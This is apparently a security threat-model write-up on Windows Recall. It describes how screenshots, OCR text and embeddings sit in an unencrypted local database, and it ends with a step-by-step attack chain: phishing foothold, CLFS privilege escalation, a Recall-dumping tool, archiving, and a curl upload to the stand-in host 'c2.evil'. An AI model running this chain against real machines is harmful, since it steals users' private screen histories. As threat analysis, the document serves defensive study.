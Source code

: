 ```
```

### 2.2 Data Flow
1. Win32 `BitBlt` → AVIF (≈170–220 KB).
2. **Metadata:** HWND title, PID, monitor ID inserted into `Snapshot` table.
3. **OCR:** Tesseract build drops plaintext into `OcrText(snapshot_id, text)`.
4. **Vision embeddings:** 512‑D float32 vector in `VisionEmbedding` enables semantic search.

> **Plain‑English 🔹**  
> Imagine a giant spreadsheet listing every screenshot, window name, words it saw, and even an AI guess like “bank statement.”  That sheet is **not** password‑protected once you’re logged in.

### 2.3 Snapshot Retention & Crypto
| Layer | How Microsoft “secures” it | Weakness |
|-------|----------------------------|----------|
| Disk | AVIF blobs AES‑256‑CBC‑wrapped with per‑user DPAPI‑NG key. | Key auto‑unlocks on login; attacker copies plaintext via user context. |
| DB | Unencrypted SQLite; temp files in `AppData\Local\Temp`. | OCR text / embeddings readable by any process with user or SYSTEM rights. |
| Policy | `DisableSnapshots` GPO or Settings toggle. | Home SKU ignores domain GPO; user can re‑enable.

---

## Adversary Model
<details><summary>Plain‑English 🔹</summary></details>

| Capability | Required? | Real‑world note |
|------------|-----------|-----------------|
| Remote Code‑Exec (user) | **Yes** | Phishing doc, malvertising MSI, LNK ISO bundle. |
| Local Priv‑Esc (admin) | **Yes** | Public CVE‑2025‑29824 (CLFS) still hits un‑patched hosts. |
| Network pivot | No | Recall loot is local—no AD creds needed. |
| Physical access | No | Out‑of‑scope; remote only. |

---

## Attack Pathways

### 4.1 End‑to‑End Remote → Exfil Chain
```text
1. phishing.doc  →  loader.exe (user)              # initial foothold
2. clfs_exp.exe  →  SYSTEM shell                  # CVE‑2025‑29824
3. git clone https://github.com/xaitax/TotalRecall
4. python total_recall.py --export csv --out %TEMP%\dump
5. 7z a -m0=lzma2 -pS3cr3t %TEMP%\recall.7z %TEMP%\dump
6. curl -F file=@%TEMP%\recall.7z https://c2.evil/cloud
```
*Total dwell time: ≈ 180 s on NVMe hardware.*
